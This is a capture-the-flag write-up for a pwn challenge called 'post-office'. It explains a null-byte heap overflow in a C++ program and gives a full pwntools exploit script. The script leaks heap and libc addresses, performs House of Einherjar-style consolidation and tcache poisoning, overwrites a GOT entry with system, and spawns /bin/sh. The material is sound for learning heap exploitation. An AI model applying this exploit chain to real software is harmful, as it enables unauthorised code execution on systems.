# Write-up: post-office

## Category: pwn

## Author brzeks

A challenge exploring the null-byte heap overflow vulnerability on a modern version of libc using plenty of C++ constructs and other fun stuff like vectors.
The main vulnerability hides inside the `addItem` function where you can overflow the item's name with a null-byte. When the item lays inside a capacity 1 vector then it's possible to overflow into the immediate next malloc chunk thus modifying its size + metadata.
This writeup uses the vulnerability to perform a House of Einherjar-like + T-cache poisoning attack to overwrite a GOT entry and make it point to system.

```py
from pwn import *
import re

context.binary = ELF("./post")

off_sys = -0x186d50 #offset from unsorted bin to system@glibc

r = remote('localhost', 30002)

def addParcel(id):
    r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b': ', str(id).encode())
    r.sendlineafter(b': ', b'/bin/sh') #printing invoice will trigger strlen(parcel.destination) but we'll replace it with system later

def removeParcel(id):
    r.sendlineafter(b'> ', b'2')
    r.sendlineafter(b': ', str(id).encode())

def addItem(pid, typ=b'A', weight=b'A', name=b'A'):
    r.sendlineafter(b'> ', b'4')
    r.sendlineafter(b': ', str(pid).encode())
    r.sendlineafter(b': ', typ)
    r.sendlineafter(b': ', weight)
    r.sendlineafter(b': ', name)

def removeItem(pid, idx):
    r.sendlineafter(b'> ', b'5')
    r.sendlineafter(b': ', str(pid).encode())
    r.sendlineafter(b': ', str(idx).encode())

#reserve space for 3 parcels (actually reserves space for 4 parcels :nerd:)
addParcel(0)
addParcel(1)
addParcel(2)

#read uninitialized memory to leak a protected tcache NULL pointer (heap leak)
addItem(0)
removeParcel(0)
addParcel(0)
addItem(0)
r.sendlineafter(b'> ', b'3')
r.sendlineafter(b': ', b'0')
heap_leak = int(re.search(rb'Type: (.*)', r.recvuntil(b'Weight'))[1].decode())
log.info(f'heap leak: {hex(heap_leak)}')

#fill appropriate for vector resizing tcache chunks to avoid splitting the top chunk later
for _ in range(30):
    addItem(0)
removeParcel(0)

# clear out tcache bin for size 1
addItem(1)

#allocate a splitted from top chunk chunk, this will reside just before the victim chunk and be able to overflow with a null byte into victim
addParcel(0)
addItem(0)
removeItem(0, 0) #won't deallocate, setup fake chunk later here

#allocate a victim chunk right after the previous chunk by resizing the vector
#will work thanks to tcache bin filling done previously
for _ in range(31):
    addItem(1)

#setup a fake chunk before victim and overflow into victim size
#PREV_SIZE = 0
#SIZE = 0x21 (represented as double is 1.6304166312761135957826770164651e-322)
#FD = BK = addr of this fake chunk
#NEXT_CHUNK_PREV_SIZE = 0x20
#VICTIM_SIZE &= 0x00 (will set PREV_IN_USE to 0 and initiate backwards consolidation)
fdbk = (heap_leak << 12) + 0x5a0
# addItem(0, PREV_SIZE, SIZE, FD + BK + PREV_SIZE_NEXT_CHUNK + overflow)
addItem(0, b'0', b'1.6304166312761135957826770164651e-322', packing.p64(fdbk) * 2 + b'\x20' + b'\0' * 8)

#since the victim chunk got "resized" down by 0x10 bytes due to the null overflow I'm creating a fake 0x10 sized chunk afterward to fix linkage to the top chunk
removeItem(1, 31)
addItem(1, b'0', b'0', b'A' * 16 + b'\x11')

removeParcel(1) #free victim chunk

addParcel(1)
addItem(1) # clear out tcache[s = 0x30]
addItem(2) # split unsorted chunk (victim)

#as a helpful byproduct the unsorted chunk's FD && BK point to the unsorted bin in main arena in libc so let's leak that
r.sendlineafter(b'> ', b'3') 
r.sendlineafter(b': ', b'2')
libc_leak = int(re.search(rb'Type: (.*)', r.recvuntil(b'Weight'))[1].decode())
log.info(f'libc leak: {hex(libc_leak)}')

removeParcel(1) # free valid chunk into tcache
removeParcel(2) # free victim chunk into tcache

removeItem(0, 0)
addItem(0, b'0', b'0', packing.p64(heap_leak ^ 0x40a010)) # modify FD pointer of the freed chunk to GOT

addParcel(1)
addItem(1)
addParcel(2)

addItem(2, b'A', b'A', packing.p64(libc_leak + off_sys)) #overwrite got strlen to system
r.sendlineafter(b'> ', b'7') # generate invoice which will call system("/bin/sh")

r.interactive()
```